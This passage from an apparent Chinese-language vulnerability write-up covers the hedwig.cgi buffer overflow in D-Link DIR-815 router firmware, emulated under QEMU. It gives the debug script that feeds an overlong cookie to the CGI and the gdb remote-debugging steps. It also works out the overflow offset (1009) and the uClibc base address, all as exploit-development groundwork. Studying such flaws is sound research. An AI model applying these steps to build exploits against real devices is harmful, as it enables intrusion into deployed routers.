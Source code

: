 接下来动态调试确定偏移但是在那之前需要关掉地址随机化，因为qemu的虚拟机内核开启了地址随机化，每次堆的地址都在变化，导致libc的基地址也不断在变，所以需要关闭地址随机化。

`echo 0 &gt; /proc/sys/kernel/randomize_va_space`

可以编写以下脚本进行动态调试

debug.sh，gdbsever 192.168.79.145是宿主机IP，6666是qemu监听端口。

```
#!/bin/bash
export CONTENT_LENGTH="100"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="`cat content`"
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
echo "uid=1234"|./gdbserver.mipsel 192.168.79.145:6666 /htdocs/web/hedwig.cgi
```

宿主机gdb调试

```
gdb-multiarch htdocs/cgibin
set architecture mips
target remote 192.168.79.143:6666 #对应qemu地址和端口
c
```

得到溢出地址是0x68423668，利用脚本计算偏移为1009

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/gdbseveroffset.png)

```
#./patternLocOffset.py -s 0x68423668 -l 2000 
[*] Create pattern string contains 2000 characters ok!
[*] No exact matches, looking for likely candidates...
[+] Possible match at offset 1009 (adjusted another-endian)
[+] take time: 0.0007 s
```

接下来是确定libc的基地址，需要先把环境变量配置好，不然/htdocs/web/hedwig.cgi很快就执行完，进程立马就结束了，就得不到maps。

利用/htdocs/web/hedwig.cgi &amp; cat /proc/pid/maps ，**a&amp;b 先执行a，在执行b，无论a成功与否都会执行b**。因为关闭了地址随机化，libc.so.0的基地址就是0x77f34000。这里的libc.so.0是指向libuClibc-0.9.30.1.so。所以libuClibc-0.9.30.1.so基地址为0x77f34000。

```
root@debian-mipsel:~/squashfs-root# export CONTENT_LENGTH="100"
root@debian-mipsel:~/squashfs-root# export CONTENT_TYPE="application/x-www-form-urlencoded"
root@debian-mipsel:~/squashfs-root# export HTTP_COOKIE="uid=1234"
root@debian-mipsel:~/squashfs-root# export REQUEST_METHOD="POST"
root@debian-mipsel:~/squashfs-root# export REQUEST_URI="/hedwig.cgi"

root@debian-mipsel:~/squashfs-root# /htdocs/web/hedwig.cgi &amp; cat /proc/pid/maps
[10] 1052
cat: /proc/pid/maps: No such file or directory
root@debian-mipsel:~/squashfs-root# /htdocs/web/hedwig.cgi &amp; cat /proc/pid/maps
[11] 1054
cat: /proc/pid/maps: No such file or directory
[10]+  Stopped                 /htdocs/web/hedwig.cgi
root@debian-mipsel:~/squashfs-root# /htdocs/web/hedwig.cgi &amp; cat /proc/1056/maps 
[12] 1056
00400000-0041c000 r-xp 00000000 08:01 32694      /htdocs/cgibin
0042c000-0042d000 rw-p 0001c000 08:01 32694      /htdocs/cgibin
0042d000-0042f000 rwxp 00000000 00:00 0          [heap]
77f34000-77f92000 r-xp 00000000 08:01 547906     /lib/libc.so.0
77f92000-77fa1000 ---p 00000000 00:00 0 
77fa1000-77fa2000 r--p 0005d000 08:01 547906     /lib/libc.so.0
77fa2000-77fa3000 rw-p 0005e000 08:01 547906     /lib/libc.so.0
77fa3000-77fa8000 rw-p 00000000 00:00 0 
```